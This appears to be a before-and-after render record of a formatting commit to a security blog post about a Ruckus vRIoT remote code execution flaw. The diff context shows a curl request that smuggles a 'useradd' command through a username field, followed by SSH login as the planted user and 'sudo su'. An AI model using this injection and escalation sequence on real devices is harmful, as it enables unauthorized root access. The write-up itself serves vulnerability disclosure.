

Before and after one commit to Adepts-Of-0xCC/blog, a Jekyll site: the page built from _posts/Ruckus-VRIOT-RCE/2020-10-08-Ruckus-VRIOT-RCE.md, in a window 1280 px wide and 900 px high, scrolled down 8653 px. Shown: the whole window, without its empty margins (251-1028 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced.

Commit message:
identation fixes

````diff
--- a/_posts/Ruckus-VRIOT-RCE/2020-10-08-Ruckus-VRIOT-RCE.md
+++ b/_posts/Ruckus-VRIOT-RCE/2020-10-08-Ruckus-VRIOT-RCE.md
@@ -328,8 +328,7 @@ curl https://host/service/v1/createUser -k --data '{"username": ";useradd \"expl
 And now log in:
 
 ```
-X-C3LL@Kumonga ᐓ  ~ |
-ᐓ   ssh exploit@192.168.0.20
+X-C3LL@Kumonga:~|⇒  ssh exploit@192.168.0.20
 exploit@192.168.0.20's password:
 Could not chdir to home directory /home/exploit: No such file or directory
 $ sudo su
````
